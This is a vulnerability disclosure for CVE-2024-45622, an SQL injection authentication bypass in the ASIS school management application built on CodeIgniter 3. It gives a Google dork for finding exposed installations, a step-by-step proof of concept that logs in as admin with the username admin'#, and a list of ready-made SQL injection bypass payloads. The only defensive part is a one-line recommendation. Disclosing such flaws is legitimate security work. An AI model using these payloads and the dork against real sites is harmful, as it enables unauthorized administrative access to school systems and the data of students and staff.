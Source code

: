 # ASIS | Aplikasi Sistem Sekolah using CodeIgniter 3 - SQL Injection Authentication Bypass

### CVE Assigned:
**[CVE-2024-45622](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-45622)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2024-45622) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2024-45622)

### Date:

> 5 July 2024

### Author Email:

> atoz.chevara@yahoo.com

### Google Dork:

> "ASIS | Aplikasi Sistem Sekolah"

### Vendor Homepage:

> https://www.facebook.com/groups/181558652941070/

### Software Link:

> [ASIS - Aplikasi Sistem Sekolah dengan Framework Codeigniter](https://members.phpmu.com/forum/read/asis--aplikasi-sistem-sekolah-dengan-framework-codeigniter)

### Version:

> v 3.0.0 < 3.2.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> index.php

> `username` parameter within the login mechanism is vulnerable to SQL Injection.


### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

* Step 1 - Visit http://localhost/asispanel/
* Step 2 - Enter username as `admin'#` and password as `xyz`
* Step 3 - Click `LOGIN` and now you will be logged in as admin.

### Payloads Can be use:

```
admin'#
'||1#
'||1-- 
'=' 'or'
' OR '1'='1
' or 0=0 ##
```

## Recommendations

When using this ASIS, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.

